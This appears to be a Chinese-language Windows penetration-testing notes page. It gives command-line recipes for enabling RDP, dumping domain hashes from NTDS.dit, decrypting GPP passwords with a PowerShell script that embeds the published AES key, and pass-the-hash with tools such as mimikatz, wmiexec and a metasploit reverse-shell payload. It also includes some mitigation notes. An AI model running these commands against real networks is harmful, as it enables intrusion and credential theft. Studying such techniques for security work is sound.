


# Windows 渗透

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 大纲

* **[RDP](#rdp)**
    * [命令行开启RDP](#命令行开启rdp)
    * [多开](#多开)
    * [连接记录](#连接记录)
    * [凭据窃取](#凭据窃取)

* **[认证](#认证)**
    * [本地](#本地)
    * [域](#域)
        * [NTDS.DIT](#ntdsdit)
            * [利用Dcsync获取域用户Hash](#利用dcsync获取域用户hash)
            * [使用VSS卷影副本提取ntds.dit](#使用vss卷影副本提取ntdsdit)
            * [NTDS转储](#ntds转储)
        * [GPP](#gpp)
        * [PTH](#pth)
        * [PTT](#ptt)
            * [Silver_Tickets](#silver_tickets)
            * [Golden_Tickets](#golden_tickets)
        * [PTK](#ptk)
        * [Kerberoast](#kerberoast)
        * [Kerberoasting](#kerberoasting)
        * [委派](#委派)
            * [查找域中委派主机或账户](#查找域中委派主机或账户)
    * [毒化LLMNR和NBT-NS请求](#毒化llmnr和nbt-ns请求)

* **[漏洞利用](#漏洞利用)**
    * [权限提升](#提权)
    * [远程](#远程)
    * [其他](#其他)

---

# RDP

**第三方连接工具**
- [rdesktop/rdesktop](https://github.com/rdesktop/rdesktop)
    - kali 自带,使用方法 : `rdesktop <ip>`
- [Remmina](https://remmina.org/)
- [FreeRDP/FreeRDP](https://github.com/FreeRDP/FreeRDP)

## 命令行开启RDP

**查看 3389 端口是否开启**
```
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /*如果是0x0则开启
```

**查看远程连接的端口**
```
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber
```

**cmd 开 RDP**
- 文章
    - [开启 RDP](https://b404.xyz/2017/12/27/open-RDP/)

- 命令
    - **dos 命令开启 3389 端口(开启 XP&2003 终端服务)**
        1. 方法一 : `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`

        2. 方法二 : `REG add HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /d 0 /t REG_DWORD /f`

    - **WMIC 开启 3389**

        ```
        wmic /namespace:\\root\CIMV2\TerminalServices PATH Win32_TerminalServiceSetting WHERE (__CLASS !="") CALL SetAllowTSConnections 1
        ```

    - **PowerShell 开启 RDP**
        1. Enable RDP : `set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0`

        2. Allow RDP in firewall : `Set-NetFirewallRule -Name RemoteDesktop-UserMode-In-TCP -Enabled true`

        3. Enable secure RDP authentication : `set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "UserAuthentication" -Value 1`

        或

        1. Enable Remote Desktop : `(Get-WmiObject Win32_TerminalServiceSetting -Namespace root\cimv2\TerminalServices).SetAllowTsConnections(1,1) `
        `(Get-WmiObject -Class "Win32_TSGeneralSetting" -Namespace root\cimv2\TerminalServices -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0) `

        2. Enable the firewall rule : `Enable-NetFirewallRule -DisplayGroup "Remote Desktop"`

    - **reg 开启**
        ```
        Windows Registry Editor Version 5.00
        [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
        "fDenyTSConnections"=dword:00000000
        [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]
        "PortNumber"=dword:00000d3d
        ```
        ```
        regedit /s a.reg
        ```

    - **更改终端端口为 2008(十六进制为:0x7d8)**

        1. `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\Wds\rdpwd\Tds\tcp /v PortNumber /t REG_DWORD /d 0x7d8 /f`
        2. `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber /t REG_DWORD /d 0x7D8 /f`

    - **查看 3389 端口是否更改**

        ```
        REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber  /*出来的结果是 16 进制
        ```

    - **允许 3389 端口**
        ```
        netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
        ```

    - **取消 xp&2003 系统防火墙对终端服务的限制及 IP 连接的限制:**

        ```
        REG ADD HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /v 3389:TCP /t REG_SZ /d 3389:TCP:*:Enabled :@ xpsp2res.dll,-22009 /f
        ```

---

## 多开

**相关文章**
- [Win7 双开 3389](https://blog.csdn.net/SysProgram/article/details/11810889)
- [渗透技巧——Windows 系统远程桌面的多用户登录](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E8%BF%9C%E7%A8%8B%E6%A1%8C%E9%9D%A2%E7%9A%84%E5%A4%9A%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95/)
- [Multi-User login in Windows 7/Vista/XP using Remote Desktop](http://zahirkhan.com/tools-utilities/multi-user-login-in-windows-7)

**相关工具**
- [stascorp/rdpwrap](https://github.com/stascorp/rdpwrap)

- mimikatz
    ```
    privilege::debug
    ts::multirdp
    ```

- Windows Server
    ```
    win+R
    gpedit.msc
    计算机配置->管理模板->Windows 组件->远程桌面服务->远程桌面会话主机->连接
    将 "将远程桌面服务的用户限制到单独的远程桌面会话" 禁用
    ```

---

## 连接记录

**相关文章**
- [渗透技巧——获得 Windows 系统的远程桌面连接历史记录](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E8%8E%B7%E5%BE%97Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E8%BF%9C%E7%A8%8B%E6%A1%8C%E9%9D%A2%E8%BF%9E%E6%8E%A5%E5%8E%86%E5%8F%B2%E8%AE%B0%E5%BD%95/)
- [关于 windows 的 RDP 连接记录](http://rcoil.me/2018/05/%E5%85%B3%E4%BA%8Ewindows%E7%9A%84RDP%E8%BF%9E%E6%8E%A5%E8%AE%B0%E5%BD%95/)
- [How to Clear RDP Connections History in Windows](http://woshub.com/how-to-clear-rdp-connections-history/#h2_3)

**相关工具**
- [3gstudent/List-RDP-Connections-History](https://github.com/3gstudent/List-RDP-Connections-History) - 使用 powershell 列出已登录用户或所有用户的 RDP 连接历史记录

---

## 凭据窃取

**相关工具**
- [hmoytx/RdpThief_tools](https://github.com/hmoytx/RdpThief_tools) - 窃取 mstsc 中的用户明文凭据
- [0x09AL/RdpThief](https://github.com/0x09AL/RdpThief)

---

# 认证

关于 windows 认证的基本知识点可见笔记 [认证](../../../运维/windows/笔记/认证.md)

## 本地

**相关文章**
- [几种windows本地hash值获取和破解详解](https://www.secpulse.com/archives/65256.html)
- [Windows密码抓取总结](https://times0ng.github.io/2018/04/20/Windows%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96%E6%80%BB%E7%BB%93/)
- [深刻理解windows安全认证机制](https://klionsec.github.io/2016/08/10/ntlm-kerberos/)
- [Windows用户密码的加密方法与破解](https://www.sqlsec.com/2019/11/winhash.html#toc-heading-2)
- [Windows下的密码hash——NTLM hash和Net-NTLM hash介绍](https://3gstudent.github.io/3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D/)
- [浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/)

**相关工具**
- [mimikatz](https://github.com/gentilkiwi/mimikatz) - 抓密码神器
    - [mimikatz](../../工具/Mimikatz.md)
- [skelsec/pypykatz](https://github.com/skelsec/pypykatz) - 用纯 Python 实现的 Mimikatz
- [AlessandroZ/LaZagne](https://github.com/AlessandroZ/LaZagne) - 凭证抓取神器
- [Arvanaghi/SessionGopher](https://github.com/Arvanaghi/SessionGopher) - 使用 WMI 提取 WinSCP、PuTTY、SuperPuTTY、FileZilla 和 Microsoft remote Desktop 等远程访问工具保存的会话信息的 ps 脚本
- [Invoke-WCMDump](https://github.com/peewpw/Invoke-WCMDump) - 从 Credential Manager 中转储 Windows 凭证的 PowerShell 脚本
    ```
    set-executionpolicy remotesigned
    import-module .\Invoke-WCMDump.ps1
    invoke-wcmdump
    ```
- [SterJo Key Finder](https://www.sterjosoft.com/key-finder.html) - 找出系统中软件的序列号
- [uknowsec/SharpDecryptPwd](https://github.com/uknowsec/SharpDecryptPwd) - 对密码已保存在 Windwos 系统上的部分程序进行解析,包括：Navicat,TeamViewer,FileZilla,WinSCP,Xmangager 系列产品(Xshell,Xftp)。

## 域

**相关文章**
- [横向渗透-域渗透 PTT、PTH、PTK](http://1984-0day.com/2020/04/05/%E6%A8%AA%E5%90%91%E6%B8%97%E9%80%8F-%E5%9F%9F%E6%B8%97%E9%80%8F-PTT%E3%80%81PTH%E3%80%81PTK/)
- [我所了解的内网渗透——内网渗透知识大总结](https://www.anquanke.com/post/id/92646#h2-10)

### NTDS.DIT

在域内 HASH 是存在 NTDS.DIT 中的， NTDS.DIT 是一个二进制文件，就等同于本地计算机的 SAM 文件，它的存放位置是 `%SystemRoot%\ntds\NTDS.DIT` 。这里面包含的不只是 Username 和 HASH，还有 OU、Group 等信息。

AD 数据库是 Jet 数据库引擎，它使用提供数据存储和索引服务的可扩展存储引擎（ESE）ESE 级索引使对象属性可以快速定位。

ntds.dit 文件由三个主表组成：数据表，链接表和SD表。

**相关文章**
- [从NTDS.dit获取密码hash的三种方法](https://www.freebuf.com/sectool/176876.html)
- [导出域密码哈希值的多种方法介绍](https://www.freebuf.com/articles/system/177764.html)
- [How Attackers Dump Active Directory Database Credentials](https://adsecurity.org/?p=2398)

#### 利用Dcsync获取域用户Hash

**mimikatz**

mimikatz 的 NTDS.DIT 攻击操作见 [mimikatz 笔记](../../工具/Mimikatz.md#ntdsdit)

#### 使用VSS卷影副本提取ntds.dit

卷影副本，也称为快照，是存储在 Data Protection Manager (DPM) 服务器上的副本的时间点副本。副本是文件服务器上单个卷的受保护共享、文件夹和文件的完整时间点副本。

**WMIC**
```
wmic /node:AD /user:PENTESTAdministrator /password:123qweQWE!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:vss.log"

wmic /node:AD /user:PENTESTadministrator /password:123qwe!@#!@# process call create "cmd /c copy 卷影IDWindowsNTDSNTDS.dit C:windowstempNTDS.dit 2>&1"

wmic /node:AD /user:PENTESTadministrator /password:123qwe!@# process call create "cmd /c copy 卷影IDWindowsSystem32configSYSTEM c:windowstempSYSTEM.hive 2>&1"

net use k: \pentest.comc$
```

**metasploit**
```bash
auxiliary/admin/smb/psexec_ntdsgrab
windows/gather/credentials/domain_hashdump
hashdump
```

**NTDSUtil**

Ntdsutil.exe 是一个为 Active Directory 提供管理设施的命令行工具。

使用 NTDSUTIL 的 IFM 创建（VSS 卷影副本）在 DC 上本地引用 ntds.dit

NTDSUtil 是本地处理 AD DB 的命令实用程序（ntds.dit），并为 DCPromo 启用 IFM 集创建。IFM 与 DCPromo 一起用于“从媒体安装”,因此被升级的服务器不需要通过网络从另一个 DC 复制域数据。
```
ntdsutil "ac i ntds" "ifm" "create full c:temp" q q
```
当创建一个 IFM 时，VSS 快照被拍摄，挂载，ntds.dit 文件和相关数据被复制到目标文件夹中。

**Nishang**
```
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

**PowerSploit**
```
Import-Module .\VolumeShadowCopyTools.ps1
New-VolumeShadowCopy -Volume C:\
Get-VolumeShadowCopy
```

**DiskShadow**

DiskShadow是一个 Microsoft 签名二进制文件，用于协助管理员执行与卷影复制服务（VSS）相关的操作。这个二进制文件有两个模式 interactive 和 script ，脚本将包含自动执行 NTDS.DIT 提取过程所需的所有命令。我们可以在脚本文件中添加以下行，以创建新的 volume shadow copy（卷影复制），挂载新驱动，执行复制命令以及删除 volume shadow copy。
```
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset
```

需要注意的是，DiskShadow 二进制文件需要从 C:\Windows\System32 路径执行。如果从其它路径调用它，脚本将无法正确执行。
```
diskshadow.exe /s c:\diskshadow.txt
```

直接从解释器运行以下命令，将列出系统的所有可用 volume shadow copy。
```
diskshadow
LIST SHADOWS ALL
```

SYSTEM 注册表 hive 也应该被复制，因为其包含了解密 NTDS 文件内容所需的密钥。
```
reg.exe save hklm\system c:\exfil\system.bak
```

**ntdsutil**
```
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```
它将为我们生成两个新文件夹：Active Directory 和 Registry。NTDS.DIT 文件将被保存到 Active Directory 中，而 SAM 和 SYSTEM 文件则将被保存到 Registry 文件夹中。

**vssadmin**

volume shadow copy 是一个 Windows 命令行实用程序，管理员可以使用它备份计算机，卷以及文件（即使操作系统正在使用这些资源）。Volume Shadow Copy 作为一个服务运行，并要求文件系统的格式为 NTFS（默认情况下 windows 操作系统文件格式均为 NTFS）。从Windows 命令提示符执行以下命令，将会创建一个 C 盘的快照，这样我们就可以将其复制到另一个位置（如本地文件夹，网络文件夹或可移动介质）以获取它的访问权限。
```
vssadmin create shadow /for=C:
```
由于我们已经将 C 盘中的所有文件都复制到了另一个位置（HarddiskVolumeShadowCopy1），因此它们不会被操作系统直接使用，我们可以随意访问并复制其中的文件。使用 copy 命令将 NTDS.DIT 和 SYSTEM 文件，复制到本地名为 ShadowCopy 的驱动中的新建文件夹中。
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

#### NTDS转储

**Impacket-secretsdump**

- https://www.coresecurity.com/corelabs-research/open-source-tools/impacket

Impacket 是一组 python 脚本，可用于执行各种任务，包括提取 NTDS 文件的内容。impacket-secretsdump 模块需要我们提供 SYSTEM 和 NTDS 数据库文件。
```
impacket-secretsdump -system /root/SYSTEM -ntds /root/ntds.dit LOCAL

-system：表示系统 hive 文件的路径（SYSTEM）
-ntds：表示 dit 文件的路径（ntds.dit）
```

此外，impacket 可以通过使用计算机帐户及其哈希进行身份验证从 NTDS.DIT 文件远程转储域密码哈希。
```
impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

**DSInternals PowerShell**

- 工具地址 : [MichaelGrafnetter/DSInternals](https://github.com/MichaelGrafnetter/DSInternals)

DSInternals PowerShell 模块提供了构建在框架之上的易于使用的 cmdlet。主要功能包括离线 ntds.dit 文件操作以及通过目录复制服务（DRS）远程协议查询域控制器。
```
Save-Module DSInternals -Path C:\Windows\System32\WindowsPowershell\v1.0\Modules
Install-Module DSInternals
Import-Module DSInternals
Get-Bootkey -SystemHivePath 'C:\Users\sanje\Desktop\NTDS\SYSTEM'
Get-ADDBAccount -All -DBPath 'C:\Users\sanje\Desktop\NTDS\ntds.dit' -Bootkey $key
```

**Ntdsxtract**

- 工具地址 : [libyal/libesedb](https://github.com/libyal/libesedb/)
- 相关文章 : [Extracting Hashes and Domain Info From ntds.dit](https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/)

首先我们需要从 NTDS.dit 文件中提取表格，这里我们可以通过 libesedb-tools 中的 esedbexport 来帮我们完成。Libesedb 是一个用于访问可扩展存储引擎（ESE）数据库文件（EDB）格式的库。当前，ESE 数据库格式被应用于许多不同的应用程序上，如 Windows Search，Windows Mail，Exchange，Active Directory（NTDS.dit）等。

安装
```
get https://github.com/libyal/libesedb/releases/download/20200418/libesedb-experimental-20200418.tar.gz
tar xf libesedb-experimental-20200418.tar.gz
cd libesedb-20200418
apt-get install autoconf automake autopoint libtool pkg-config
./configure
make
make install
ldconfig
```

利用该工具从 ntds.dit 文件中转储表格
```
esedbexport -m tables /root/Desktop/NTDS/ntds.dit
```

下载 ntdsxtract 提取用户信息和密码哈希值
```
git clone https://github.com/csababarta/ntdsxtract.git
cd ntdsxtract
python setup.py build && python setup.py install

dsusers.py ntds.dit.export/datatable.4 ntds.dit.export/link_table.6 data --syshive /root/Desktop/NTDS/SYSTEM --passwordhashes --pwdformat john --ntoutfile nthash.txt --lmoutfile lmhash.txt
```

---

### GPP

关于 windows 组策略的基本知识点可见笔记 [组策略](../../../运维/windows/笔记/组策略.md)

在 GPP 出现之前，很多统一管理的操作只能通过脚本来实现，而 GPP 方便和简化了这样的管理,GPP 你可以将其理解为一个功能点,作用是简单化、规范化组策略的发布和使用。

注 : GPP漏洞只在2008没打补丁版本上存在，超过2008版本的系统是没办法写入密码的。

域管理员在使用组策略批量管理域内主机时，如果配置组策略的过程中需要填入密码，那么该密码会被保存到共享文件夹 \SYSVOL 下，默认所有域内用户可访问，虽然被加密，但很容易被解密,访问 XML 文件，利用 AES 私钥可以解密 GPP 密码。

在2012年前的某些点外，微软在 MSDN 上发布了 AES 的私钥，它可以用来解密这种密码。因为认证用户（所有域用户或者信任域里的用户）对 SYSVOL 拥有读权限。在域里的任何用户可以搜索 SYSVOL 共享中的带有 cpassword 字样的 XML 文件，里面包含了 AES 加密的密码。



- 微软在 MSDN 上发布的 AES 加密密钥（共享密钥） : https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN

使用 PowerShell 脚本解密 : https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

参考 https://xz.aliyun.com/t/1653 ,可简化 powershell 脚本如下,替换其中 GPP 密码即可
```powershell
function Get-DecryptedCpassword {
    [CmdletBinding()]
    Param (
        [string] $Cpassword
    )

    try {
        #Append appropriate padding based on string length
        $Mod = ($Cpassword.length % 4)

        switch ($Mod) {
        '1' {$Cpassword = $Cpassword.Substring(0,$Cpassword.Length -1)}
        '2' {$Cpassword += ('=' * (4 - $Mod))}
        '3' {$Cpassword += ('=' * (4 - $Mod))}
        }

        $Base64Decoded = [Convert]::FromBase64String($Cpassword)

        #Create a new AES .NET Crypto Object
        $AesObject = New-Object System.Security.Cryptography.AesCryptoServiceProvider
        [Byte[]] $AesKey = @(0x4e,0x99,0x06,0xe8,0xfc,0xb6,0x6c,0xc9,0xfa,0xf4,0x93,0x10,0x62,0x0f,0xfe,0xe8,
                             0xf4,0x96,0xe8,0x06,0xcc,0x05,0x79,0x90,0x20,0x9b,0x09,0xa4,0x33,0xb6,0x6c,0x1b)

        #Set IV to all nulls to prevent dynamic generation of IV value
        $AesIV = New-Object Byte[]($AesObject.IV.Length)
        $AesObject.IV = $AesIV
        $AesObject.Key = $AesKey
        $DecryptorObject = $AesObject.CreateDecryptor()
        [Byte[]] $OutBlock = $DecryptorObject.TransformFinalBlock($Base64Decoded, 0, $Base64Decoded.length)

        return [System.Text.UnicodeEncoding]::Unicode.GetString($OutBlock)
    }

    catch {Write-Error $Error[0]}
}
Get-DecryptedCpassword "9XLcz+Caj/kyldECku6lQ1QJX3fe9gnshWkkWlgAN1U"
```

**组策略中该目录下的其他 XML 文件**
- \User\Preferences\Groups
- Services\Services.xml
- ScheduledTasks\ScheduledTasks.xml
- Printers\Printers.xml
- Drives\Drives.xml
- DataSources\DataSources.xml

**相关文章**
- [域安全篇：寻找SYSVOL里的密码和攻击GPP（组策略偏好）](https://www.freebuf.com/vuls/92016.html)
- [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)
- [域渗透——利用SYSVOL还原组策略中保存的密码](https://xz.aliyun.com/t/1653)
- [windows2008 GPP漏洞利用](https://bl4ck.in/penetration/2015/08/14/windows2008-GPP%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8.html)
- [浅析域渗透中的组策略利用](https://xz.aliyun.com/t/7784)

**修复方案**
- 在每台用于管理 GPO 的电脑上安装 KB2962486 补丁，这样会避免新的凭据放进 GPP 里。
- 删除现有的 GPP 里包含密码的 xml 文件。

---

### PTH

path-the-hash,中文直译过来就是 hash 传递，在域中是一种比较常用的攻击方式。

利用前提是我们获得了某个用户的密码哈希值，但是解不开明文。这时我们可以利用 NTLM 认证的一种缺陷，利用用户的密码哈希值来进行 NTLM 认证。在域环境中，大量计算机在安装时会使用相同的本地管理员账号和密码。因此，如果计算机的本地管理员账号密码相同，攻击者就能使用哈希传递攻击登录内网中的其他机器，扩展权限。

**相关文章**
- [hash传递攻击研究](http://sh1yan.top/2019/05/19/Hash-Passing-Attack-explore/)
- [Passing-the-Hash to NTLM Authenticated Web Applications](https://labs.f-secure.com/blog/pth-attacks-against-ntlm-authenticated-web-applications/) - PTH 在 Web 应用中的应用
- [浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/)
- [KB22871997是否真的能防御PTH攻击？](https://www.anquanke.com/post/id/193150)

**攻击适用情况**
- 在工作组环境中：
    - Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
    - Vista 之后的机器，只能是 administrator 用户的哈希值才能进行哈希传递攻击，其他用户(包括管理员用户但是非 administrator)也不能使用哈希传递攻击，会提示拒绝访问。
- 在域环境中
    - 只能是域管理员组内用户(可以是域管理员组内非 administrator 用户)的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器。

**攻击必要条件**

- 哈希传递需要被认证的主机能够访问到服务器
- 哈希传递需要被传递认证的用户名
- 哈希传递需要被传递认证用户的 NTLM Hash

**攻击方式**

通常来说，pass-the-hash 的攻击模式是这样的：
1. 获取一台域主机高权限
2. 利用 mimikatz 等工具导出密码 hash
3. 用导出的 hash 尝试登陆其他域主机

要完成一个 NTLM 认证，第一步需要客户端将自己要参与认证的用户名发送至服务器端，等待服务器端给出的 Challenge⋯⋯,其实哈希传递就是使用用户名对应的 NTLM Hash 将服务器给出的 Chanllenge 加密，生成一个 Response，来完成认证。

Pass The Hash 能够完成一个不需要输入密码的 NTLM 协议认证流程，所以不算是一个漏洞，算是一个技巧。

比如 SMB 可以直接基于 TCP 协议或者 NetBIOS over TCP，SMB 的认证可以基于 SMB，也可以基于 kerberos，这两种认证方式，前者本质上使用了 hash，后者本质上使用了 ticket，导致了 SMB 的 PtH 和 PtT 攻击存在的基础。

目前常用的 hash 传递工具都是通过 445 端口进行攻击的，也是因为 smb 使用了 ntml 认证，所以导致可以 hash 传递。

- **mimikatz**

    mimikatz 的 PTH 相关操作见 [mimikatz 笔记](../../工具/Mimikatz.md#pth)

- **wmiexec**
    - [Invoke-WMIExec](https://github.com/wsfengfan/Invoke-TheHash)
        ```
        Invoke-Module Invoke-TheHash.psd1
        Invoke-WMIExec -Target 192.168.3.21 -Domain workgroup -Username administrator -Hash ccef208c6485269c20db2cad21734fe7 -Command "calc.exe" -verbose
        ```

    - [wmiexec](https://github.com/maaaaz/impacket-examples-windows)
        ```
        wmiexec -hashes 00000000000000000000000000000000:ccef208c6485269c20db2cad21734fe7 workgroup/administrator@192.168.3.21 "whoami"
        ```

- **metasploit**

    目标主机的 Vista 之后的机器，所以只能使用 administrator 用户进行攻击。
    ```bash
    use exploit/windows/smb/psexec # 或 use exploit/windows/smb/psexec_psh
    set rhosts <ip>
    set smbuser <user>          # 域中的 PTH 这里不需要写域前缀
    set smbpass <password>      # 例如: 00000000000000000000000000000000:c780c78872a102256e946b3ad238f661

    set payload windows/meterpreter/reverse_tcp
    set lhost <ip>

    # 工具的参数需要填写固定格式 LM hash:NT hash，可以将 LM hash 填 0(LM hash 可以为任意值)，即 00000000000000000000000000000000:NT hash。
    exploit
    ```

- **pth-winexe**

    kali 自带的 PTH 套件每个工具都针对 WIN 下相应的 EXE 文件,如使用 Pth-winexe 可以借助哈希执行程序得到一个 cmdshell:
    ```bash
    export SMBHASH=xxxxxx...:xxxx...
    pth-winexe -U administrator% //target-ip cmd
    # no password 就需要替换成空的 LM hash 加密值: aad3b435b51404eeaad3b435b51404ee
    ```

- **CrackMapExec**
    - 工具地址 : https://github.com/byt3bl33d3r/CrackMapExec

    ```
    cme smb x.x.x.x -u administrator -H xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx -x whoami
    ```

#### kb2871997

> 以下部分内容来自 <sup>[Windows内网协议学习NTLM篇之NTLM基础介绍](https://www.anquanke.com/post/id/193149)、[KB22871997是否真的能防御PTH攻击？](https://www.anquanke.com/post/id/193150)</sup>

在 type3 计算 response 的时候，客户端是使用用户的 hash 进行计算的，而不是用户密码进行计算的。因此在模拟用户登录的时候。是不需要用户明文密码的，只需要用户 hash。

微软在2014年5月13日发布了针对 Pass The Hash 的更新补丁 kb2871997，能够缓解 PTH,具体更改为以下几点。
- 支持“Protected Users”组；
    - “Protected Users”组是 Windows Server 2012 R2 域中的安全组，“Protected Users”组的成员会被强制使用 Kerberos 身份验证，并且对 Kerberos 强制执行 AES 加密。
- Restricted Admin RDP 模式的远程桌面客户端支持；
    - Restricted Admin RDP 模式是为了避免将 Client 端的凭据暴露给远程系统，同时也产生一种变种的 Pass The Hash（Passing the Hash with Remote Desktop）
- 注销后删除 LSASS 中的凭据；
    - 在这个更新之前，只要用户登录系统，Windows 就会在 lsass 中缓存用户的凭据，包括用户的明文密码、LM/NTLM HASH、Kerberos 的 TGT 票据/Session Key。
- 添加两个新的 SID；
    - 本地帐户，LOCAL_ACCOUNT（S-1-5-113），所有本地帐户继承自此 SID；
    - 本地帐户和管理组成员，LOCAL_ACCOUNT_AND_MEMBER_OF_ADMINISTRATORS_GROUP（S-1-5-114），所有管理员组的本地用户继承此 SID。
    - 注意：S-1-5-114 这里在中文操作系统中提供的翻译是“NT AUTHORITY\本地帐户和管理员组成员”，但实际上是“所有本地 Administrators 组中的本地帐户”，即域用户即使被加入到了本地 Administrators 组也不继承此 SID。
- LSASS 中只允许 wdigest 存储明文密码。

但 kb2871997 对于本地 Administrator(rid 为 500，操作系统只认 rid 不认用户名，接下来我们统称 RID 500 帐户)和本地管理员组的域用户是没有影响的。

但 ntlm 认证通过之后，对 ADMIN$ 没有写入权限。那么是什么阻止了我们对本地管理员组的非 RID500 帐户使用哈希传递？为什么 RID 500 帐户具有特殊情况？除此之外，为什么本地管理员成员的域帐户也可以免除这种阻止行为。

真正罪魁祸首是远程访问上下文中的用户帐户控制（UAC）令牌筛选

根据微软官方关于远程访问和用户帐户控制的相关文档可以了解到，UAC 为了更好的保护 Administrators 组的帐户，会在网络上进行限制。

对于本地“管理员”组中的域用户帐户，文档指出：当具有域用户帐户的用户远程登录 Windows Vista 计算机并且该用户是 Administrators 组的成员时，域用户将在远程计算机上以完全管理员访问令牌运行，并且该用户的 UAC 被禁用在该会话的远程计算机上。

